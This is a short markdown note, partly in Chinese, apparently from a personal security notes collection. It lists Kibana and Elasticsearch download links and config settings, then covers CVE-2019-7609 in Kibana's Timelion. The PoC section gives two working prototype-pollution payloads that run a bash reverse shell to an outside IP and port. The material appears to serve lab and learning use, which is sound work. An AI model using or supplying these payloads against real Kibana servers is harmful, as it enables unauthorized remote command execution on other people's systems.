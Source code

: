 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 


### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

## Ref
- https://github.com/mpgn/CVE-2019-7609
